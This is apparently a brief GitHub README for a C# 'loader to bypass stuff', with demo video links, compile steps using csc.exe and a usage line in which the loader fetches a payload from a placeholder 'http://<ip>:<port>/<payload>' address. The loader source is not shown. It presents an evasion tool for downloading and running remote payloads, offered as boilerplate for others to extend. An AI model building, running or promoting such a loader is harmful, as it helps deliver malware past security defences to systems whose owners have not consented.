 # loader
a loader to bypass stuff.
## execution 
https://github.com/user-attachments/assets/dfc99aad-7b4c-4378-94a7-f54217641113

## execution without loader
https://github.com/user-attachments/assets/e42847ef-3596-4815-abb6-0702b9d7f873

## How to Compile
make sure you have visual studio 2022 installed. then open the cross tools command prompt for vs 2022 and enter: 

```cmd
csc.exe /t:exe /out:YourLoaderName.exe loader_final.cs
```

## Usage
```
taskOneLoader.exe -path "http://<ip>:<port>/<payload>"
```
you can also use this as boiler plate and add more stuff to it to make it cool. 
